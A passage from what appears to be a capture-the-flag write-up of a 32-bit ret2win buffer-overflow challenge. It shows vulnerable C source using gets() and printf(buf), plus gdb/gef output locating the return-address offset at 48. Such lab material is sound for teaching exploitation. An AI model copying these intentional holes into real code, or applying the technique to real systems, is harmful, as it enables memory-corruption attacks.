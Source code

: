 ```c

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We see there is a function that prints the flag (`win()`) and a `gets()`.

So, we have a typical `ret2win` challenge. We just need to find the offset to overwrite the return address and the address of `win()`.

We create a pattern in `gdb` and see that it crashed here:

```gdb
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

```gdb
0xffffd040│+0x0000: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"	 ← $esp
0xffffd044│+0x0004: "naaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaaza[...]"
0xffffd048│+0x0008: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabba[...]"
0xffffd04c│+0x000c: "paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabca[...]"
0xffffd050│+0x0010: "qaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabda[...]"
0xffffd054│+0x0014: "raaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabea[...]"
0xffffd058│+0x0018: "saaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfa[...]"
0xffffd05c│+0x001c: "taaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabga[...]"
───────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616c
───────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x6161616c in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern offset  maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaa
[+] Searching for 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaa'
[+] Found at offset 48 (big-endian search) 
```

